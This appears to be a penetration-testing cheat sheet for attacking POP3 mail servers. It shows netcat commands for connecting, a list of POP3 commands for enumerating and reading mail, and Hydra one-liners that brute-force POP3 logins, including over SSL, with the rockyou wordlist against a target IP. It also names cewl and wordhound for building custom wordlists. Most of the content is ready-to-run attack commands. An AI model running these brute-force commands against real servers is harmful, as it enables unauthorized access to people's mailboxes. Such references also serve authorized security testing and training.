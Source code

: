 ```text

```


**Access**

Use `netcat` or `telnet` to connect and test commands. By default, `netcat` uses `LF` as line feed. To use `CR+LF` as line feed, use `-C` option.

```bash
nc -nv ${IP} 110
```

Commands to enumerate `POP3` server.

```text
HELP

USER <id>
PASS <pass>

STAT
LIST

RETR 1
RETR 2

NOOP

CAPA

QUIT
```

```text

```


**Brute-Force**

Check possibilities for generating custom wordlist using,
- `cewl`
- `wordhound`

Check for `brute-force` possibilities using,
- `Hydra`


```bash
USER="" PORT="" ; hydra -I -l ${USER} -P /usr/share/wordlists/rockyou.txt ${IP} -t 20 -s ${PORT} pop3
PORT="" ; hydra -I -L users.txt -P /usr/share/wordlists/rockyou.txt ${IP} -t 20 -s ${PORT} pop3

USER="" PORT="" ; hydra -I -l ${USER} -P /usr/share/wordlists/rockyou.txt ${IP} -t 20 -S -s ${PORT} pop3
PORT="" ; hydra -I -L users.txt -P /usr/share/wordlists/rockyou.txt ${IP} -t 20 -S -s ${PORT} pop3
```
